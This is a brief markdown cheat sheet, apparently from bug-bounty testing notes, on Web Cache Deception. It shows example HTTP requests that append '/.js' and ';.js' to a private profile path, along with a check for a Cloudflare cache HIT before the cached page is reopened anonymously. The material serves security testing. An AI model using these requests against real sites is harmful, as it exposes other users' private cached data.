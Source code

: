 # Web Cache Deception

## Introduction
Web Cache Deception is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data

## Where to find
`-`

## How to exploit
* Normal Request (For example in the settings profile feature)
```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)
```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

1. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)
```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

## References
* [@bxmbn](https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9)
